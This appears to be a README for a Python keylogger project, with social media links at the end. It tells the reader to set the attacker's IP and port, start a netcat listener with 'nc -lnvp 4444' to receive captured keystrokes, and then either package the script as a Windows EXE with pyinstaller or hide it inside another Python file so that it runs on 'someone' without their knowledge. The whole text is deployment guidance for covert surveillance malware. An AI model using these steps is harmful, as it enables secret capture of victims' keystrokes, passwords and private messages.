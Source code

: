 # keyLogger
<h1>Reminder: Go to both python files and change the ip and port</h1>
To create a keylogger on someone

create a netcat listener
```
nc -lnvp 4444
```
and depends on how you do it

either turn the keylogger python into a EXE file (for windows)

```
pyinstaller --onefile keylogger.py.
```

Or just embedd it in a python code file in a way which is hidden (well obviously)

Twitter https://x.com/HaithamCode
Reddit https://www.reddit.com/user/haithamaljabbari
